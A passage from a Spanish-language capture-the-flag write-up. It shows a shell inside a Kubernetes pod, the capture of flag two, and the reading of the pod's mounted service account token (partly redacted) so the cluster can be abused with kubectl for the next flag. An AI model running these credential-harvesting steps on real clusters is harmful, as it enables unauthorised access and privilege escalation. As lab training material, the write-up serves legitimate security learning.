 ```bash
bash: cannot set terminal process group (15): Not a tty
bash: no job control in this shell
bash-4.4$ id
id
uid=1000(git) gid=1000(git) groups=1000(git),1000(git)
bash-4.4$ pwd
pwd
/data/git/repositories/leeroy/vuln.git
bash-4.4$ cd /root
bash-4.4$ ls -la
total 12
drwxrwxrwx    3 root     root          4096 May 31 22:01 .
drwxr-xr-x    1 root     root          4096 Oct 26 17:25 ..
drwxr-xr-x    2 root     root          4096 May 31 22:01 ..2021_05_31_22_01_32.228018415
lrwxrwxrwx    1 root     root            31 May 31 22:01 ..data -> ..2021_05_31_22_01_32.228018415
lrwxrwxrwx    1 root     root            16 May 31 22:01 flag2.txt -> ..data/flag2.txt
bash-4.4$ cat flag2.txt 
flag{[REDACTADO]}
```
Después de cargar la segunda bandera, utilicé la pista de la bandera 3. "`kubectl`".

¡Así que tal vez tengamos algunos secretos/tokens para usar con `kubectl` y podamos obtenerlos desde este pod!

¡Y si! ¡Tenemos un token guardado! ¡Guardémoslo en nuestra máquina local!
```bash
bash-4.4$ ls -la /var/run/secrets/kubernetes.io
total 8
drwxr-xr-x    3 root     root          4096 Oct 26 17:25 .
drwxr-xr-x    3 root     root          4096 Oct 26 17:25 ..
drwxrwxrwt    3 root     root           140 Oct 26 17:25 serviceaccount
bash-4.4$ cd /var/run/secrets/kubernetes.io/serviceaccount
bash-4.4$ ls -la
total 4
drwxrwxrwt    3 root     root           140 Oct 26 17:25 .
drwxr-xr-x    3 root     root          4096 Oct 26 17:25 ..
drwxr-xr-x    2 root     root           100 Oct 26 17:25 ..2021_10_26_17_25_23.066083395
lrwxrwxrwx    1 root     root            31 Oct 26 17:25 ..data -> ..2021_10_26_17_25_23.066083395
lrwxrwxrwx    1 root     root            13 Oct 26 17:25 ca.crt -> ..data/ca.crt
lrwxrwxrwx    1 root     root            16 Oct 26 17:25 namespace -> ..data/namespace
lrwxrwxrwx    1 root     root            12 Oct 26 17:25 token -> ..data/token
bash-4.4$ cat token
eyJhbGciOiJSUzI1NiIsIm[REDACTADO]BAx_djkHFv3vza54WS9w
```

## Flag 3

¡Y aquí viene la mejor parte de esta máquina! _"Abusar de un cluster de Kubernetes mal configurado"_.

¡Así que ab-usemos este cluster!

